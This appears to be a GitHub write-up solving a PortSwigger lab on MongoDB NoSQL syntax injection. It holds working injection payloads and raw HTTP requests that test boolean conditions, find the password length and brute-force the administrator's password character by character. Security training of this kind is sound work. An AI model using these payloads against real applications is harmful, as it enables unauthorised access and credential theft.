 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d65cd1cd-7ed3-4cc3-b632-9aeb22fada48)

## Overview :

#### Exploiting syntax injection to extract data

In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's $where operator and mapReduce() function. This means that, if a vulnerable application uses these operators or functions, the database may evaluate the JavaScript as part of the query. You may therefore be able to use JavaScript functions to extract data from the database. 

#### Exfiltrating data in MongoDB

Consider a vulnerable application that allows users to look up other registered usernames and displays their role. This triggers a request to the URL:
https://insecure-website.com/user/lookup?username=admin

This results in the following NoSQL query of the users collection:
```json
{"$where":"this.username == 'admin'"}
```

 As the query uses the $where operator, you can attempt to inject JavaScript functions into this query so that it returns sensitive data. For example, you could send the following payload:
```json
admin' && this.password[0] == 'a' || 'a'=='b
```

This returns the first character of the user's password string, enabling you to extract the password character by character.

You could also use the JavaScript match() function to extract information. For example, the following payload enables you to identify whether the password contains digits:
```json
admin' && this.password.match(/\d/) || 'a'=='b
```

## Solution :

Login as wiener. 

The following is the request & response sent .

**Request -**

```http
GET /user/lookup?user=wiener'+' HTTP/1.1
Host: 0a5a000604a69386817f4d0c00d50033.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5a000604a69386817f4d0c00d50033.web-security-academy.net/my-account?id=wiener
Connection: close
Cookie: session=IxSUIRgjxiu4z9R8PqzaavxdpaT460zx
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

**Response -**

```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:10:55 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

The response contains the username , email & also the role of that user.

Inserting a `'` in the request ie (`user=wiener'`)causes an error in response .
```json
{
  "message": "There was an error getting user details"
}
```

The backend query might look something like this - `this.user == 'wiener'`

> This input likely results in an error because the application is attempting to execute a NoSQL query and the single quote (') is prematurely terminating the query, causing a syntax error - (`user='wiener''`).



But upon sending  `wiener'%2b'` (URL encoded form of `wiener'+'`) returns the details of wiener as usual.
```json
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:13:42 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_mum1
Via: HTTP/1.1 s_proxy_mum1

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```
> The plus sign (+) is acting as a **concatenation** or a way to continue the query. So, the resulting query might look like user=wiener' + '', and the plus sign helps to combine the intended query with the rest of the query, making it syntactically correct and allowing the query to proceed.

By this we can understand that the injected nosql query is being evaluated at the backend.

### Injecting boolean conditions -

**False condition:**

Inject `?user=wiener' && '1'=='2` , this triggers the following error in response.
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:53:40 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 38
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_mum1
Via: HTTP/1.1 s_proxy_mum1

{
  "message": "Could not find user"
}
```

**True condition:**

Inject `?user=wiener' && '1'=='1` , this results ina successful response .
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 05:57:20 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 81
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

### Finding the length of password :

To find the length of the password , we can use the following query
```sql
?user=administrator' && this.password.length < 30 || 'a'=='b
```

> We can stop at *<30* but since the query has a *'* at the end, we provide the *OR* query ie(** || 'a'=='a**).
> Note that we don't end the equal statement with a `'` because there is a trailing `'` at the end of the query getting added automatically at the end.

So the request looks like ,

```http
GET /user/lookup?user=administrator'%20%26%26%20this.password.length%20%3c%2030%20%7c%7c%20'a'%3d%3d'b HTTP/1.1
Host: 0a900010049b475283fbcdf900820099.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a900010049b475283fbcdf900820099.web-security-academy.net/my-account?id=wiener
Connection: close
Cookie: session=oWJad6obyaXSGiOE2hIcpAZ3ZXwcrhGS
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

The response shows the email of admin. It means the query is executed successfully & confirming that **the password length is less than 30.**
```http
HTTP/1.1 200 OK
Date: Mon, 06 Nov 2023 06:02:34 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 96
Connection: close
X-Frame-Options: SAMEORIGIN
Via: HTTP/1.1 m_proxy_che2
Via: HTTP/1.1 s_proxy_che2

{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```

When we provide `this.password.length < 8`, the query fails & we get a failed response (*"message": "Could not find user"*).

So **the length of admin's password is 8**.

### Finding admin's password -

Now we ned to bruteforce each position from **0-7** by bruteforcing it with **a-z** to find the password.

Modify the nosql query payload as follows.

```nosql
user=administrator' && this.password[0]=='a
```

Send the request to Intruder tab, Add the `this.password[**$0$**]` as payload 1 and `this.password[$0$]='**$a$**` as paylaod 2.

Payload 1 - Numbers from 1-10
Payload 2 - Characters from a-z

Click on start attack.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3f359128-701e-4712-a572-63034bbb6da1)

Now we have the admin's password - `oiwpuaam`

Login as admin to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1b7dee7d-f2c9-4e1b-98d8-ca8cff9e85d5)
